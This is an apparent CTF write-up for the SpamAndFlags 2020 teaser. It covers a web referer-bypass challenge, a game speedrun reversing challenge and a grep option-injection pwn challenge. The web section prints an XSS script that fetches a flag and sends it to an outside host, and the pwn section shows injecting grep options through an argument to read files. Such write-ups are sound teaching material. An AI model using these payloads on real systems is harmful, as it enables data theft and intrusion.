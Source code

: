 # S㎩mAndFlags Uけimate w呎は屸de C㏊mᒆonship Teaser ꕫꕫ - ㎩㏚i㎄ Edition


**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20200509-spamandflags/) of this writeup.**


 - [S㎩mAndFlags Uけimate w呎は屸de C㏊mᒆonship Teaser ꕫꕫ - ㎩㏚i㎄ Edition](#smandflags-uけimate-w呎は屸de-cmᒆonship-teaser-ꕫꕫ---i-edition)
   - [Web](#web)
     - [Pwnzi 2 &amp; 3](#pwnzi-2--3)
   - [Rev](#rev)
     - [TAS](#tas)
       - [1. Beat the RNG of RndSpike](#1-beat-the-rng-of-rndspike)
       - [2. Crouch can reset attack timer](#2-crouch-can-reset-attack-timer)
       - [3. Write a script to produce moveset](#3-write-a-script-to-produce-moveset)
       - [4. Place one orb on two orb holders](#4-place-one-orb-on-two-orb-holders)
       - [5. Skip the second orbspike](#5-skip-the-second-orbspike)
   - [Pwn](#pwn)
     - [Environmental Issues](#environmental-issues)



## Web

### Pwnzi 2 & 3

Various ways to bypass referer check in the same origin:

Use `history.pushState` to bypass referer check. It seems that specifiying referer in `fetch()` can also works. The flag `SaF{service_workers_are_useless_they_say}` indicates that the intended solution is about service worker, but I didn't use that.

```
<script>
history.pushState({}, "", "/profile.html");
setInterval(_ => {
  fetch('//example.com/?ping');
}, 1000);
fetch('/flag2').then(r=>r.text()).then(t=>fetch('//example.com/?'+encodeURI(t)));
</script>
```

## Rev

### TAS


Here are some tricks which can help you reduce the number of frames:

#### 1. Beat the RNG of RndSpike

Take a look of `Rnd.py`. it tells you that `LCG influenced by the keypresses`. So I wrote a simulator to predict the movements of spike.

#### 2. Crouch can reset attack timer

According to `Player.py`. you can crouch immediately after you punch to reset the attack timer. By repeating punch and crouch, you can deal one damage per two frames. This trick helps you quickly kill `TRex`
```=python
...
  def startCrouching(self):
    if not self.crouching and self.onGround:
      self.crouching = True
      self.attackTimer = 0
      self.collRect = Rect(20, 32, 26, 18)
...
```


By using these two tricks, I got the first two flags

#### 3. Write a script to produce moveset

Human makes mistakes, so I wrote a script to produce the moveset. A mistake-free moveset saves lots of frame.

Then I got the third flag.

#### 4. Place one orb on two orb holders

I found that there are two orb holders which are very close to each other. I thought maybe we can place one orb on two orb holders. By analyzing the code below at `Player.py`, I found we can trigger two orb holders when standing between them.



```=python
...
  def placeOrbOnStand(self):
    if self.isImmobile():
      return
    if self.isAttacking() or not self.onGround:
      return False
    if not self.holdingOrb:
      return
    print("placeorb")
    rect = self.getCollRect()
    offsets = [(0, 0), (1, 0), (-1, 0)]
    midX = floor(rect.centerx / Tile.LENGTH)
    midY = floor(rect.centery / Tile.LENGTH)
    for offset in offsets:
      x = midX + offset[0]
      y = midY + offset[1]
      tile = self.map.getTile(x, y)
      if tile is not None and tile.id == Tile.ORB_HOLDER_OFF:
        tileRect = tile.getCollRect().move(x*Tile.LENGTH, y*Tile.LENGTH)
        if ((tileRect.centerx > rect.centerx and self.keysPressed.right)
            or (tileRect.centerx < rect.centerx and self.keysPressed.left)):
          self.map.triggerOrb(x, y)
          self.holdingOrb = False
          # since it didn't break the loop, we can trigger more than one orb holder if they are close enough to each other
...
```

This trick helps me get the fourth flag and the fifth flag.

#### 5. Skip the second orbspike

This is the last trick I found: When you are damaged, you'll be invulnerable in a short period. But only the second orbspike can be skipped by this trick.


That's all. Now we can get all the flags.

https://pastebin.com/1XTVWxFG

![](https://i.imgur.com/HJFxtVK.png)


<div style='position:relative; padding-bottom:calc(73.98% + 44px)'><iframe src='https://gfycat.com/ifr/ComplexPossibleErmine' frameborder='0' scrolling='no' width='100%' height='100%' style='position:absolute;top:0;left:0;' allowfullscreen></iframe></div>


## Pwn

### Environmental Issues

This write-up is for the unpatched version. For the patched version, we didn't find the `BASH_FUNC_[function name]%%` trick and got no flag in that challenge.

After you saw the releasing of the patched version, check what's the patch:

Original

```bash=
line="$(grep "${1:?Missing arg1: name}" < issues.txt)"
```

After the fix

```bash=
line="$(grep -- "${1:?Missing arg1: name}" < issues.txt)"
```

This is the only line being modified in the shell code (there are some unimportant changes in other files though). Clearly, the vulnerability is to put option(s) to grep.

Check the manual for any option that could read a file, we found `-f [FILE]` would read the patterns from the FILE. After testing, we confirmed that it could be put as `-fflag` (without whitespace), and we could also use `-eFlagFragment`. They provide almost same effects and, the most important, we still got room for more short options.

We could put `-r` since grep searches the working directory if no file operand is given (note that `issues.txt` is fed by redirection). Now with `-reFlagFragment`, it works locally without sandbox. But this would timeout in the sandbox and abort the connection immediately for remote (couldn't even get the output from `challenge.py`).

There are many options to optimize the search. The only useful one I found is `-I` to ignore all binary files. Now put `-rIeFlagFragment` as argument and generated 16 arbitrary keys, then you'll get 4 flags!

Here are the lovely flags:
`SaF{PleaseStopExploitingTheEnvironmentSeeHowBeautifulSheIs🌍}`
`SaF{NiceJobYouHaveJustKilledAllTheBees🐝StopNowBeforeItIsTooLate!}`
`SaF{HereIsYourFlagButAtWhatPrice?https://www.youtube.com/watch?v=eROSvnr3QZM}`
`SaF{🔥UNINTENDED💀ENVIRON🔥MENTAL💀COLLAPSE🔥}`
